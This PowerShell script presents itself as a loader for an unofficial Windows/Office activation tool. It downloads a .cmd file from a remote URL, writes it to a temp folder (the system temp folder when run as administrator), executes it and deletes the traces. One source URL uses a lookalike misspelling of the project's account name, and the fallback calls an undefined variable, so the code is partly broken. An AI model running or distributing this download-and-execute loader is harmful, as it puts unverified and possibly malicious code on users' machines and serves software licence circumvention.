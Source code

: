 # script-kms

# Check the instructions here on how to use it mass grave[.]dev

$ErrorActionPreference = "Stop"
# Enable TLSv1.2 for compatibility with older clients
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

$CommonURLPart = 'MAS/All-In-One-Version/MAS_AIO-CRC32_60BA35A8.cmd'
$DownloadURL1 = 'https://raw.githubusercontent.com/massgavel/office-tool/main//' + $CommonURLPart
$DownloadURL2 = 'https://codeberg.org/massgravel/Microsoft-Activation-Scripts/raw/branch/master/' + $CommonURLPart
$URLs = @($DownloadURL1, $DownloadURL2)
$RandomURL1 = Get-Random -InputObject $URLs
$RandomURL2 = $URLs -notmatch $RandomURL1 | Get-Random

try {
    $response = Invoke-WebRequest -Uri $RandomURL1 -UseBasicParsing
}
catch {
    try {
        $response = Invoke-WebRequest -Uri $RandomURL2 -UseBasicParsing
    }
    catch {
        $response = Invoke-WebRequest -Uri $DownloadURL3 -UseBasicParsing
    }
}

$rand = Get-Random -Maximum 99999999
$isAdmin = [bool]([Security.Principal.WindowsIdentity]::GetCurrent().Groups -match 'S-1-5-32-544')
$FilePath = if ($isAdmin) { "$env:SystemRoot\Temp\MAS_$rand.cmd" } else { "$env:TEMP\MAS_$rand.cmd" }

$ScriptArgs = "$args "
$prefix = "@:: $rand `r`n"
$content = $prefix + $response
Set-Content -Path $FilePath -Value $content

Start-Process $FilePath $ScriptArgs -Wait

$FilePaths = @("$env:TEMP\MAS*.cmd", "$env:SystemRoot\Temp\MAS*.cmd")
foreach ($FilePath in $FilePaths) { Get-Item $FilePath | Remove-Item }
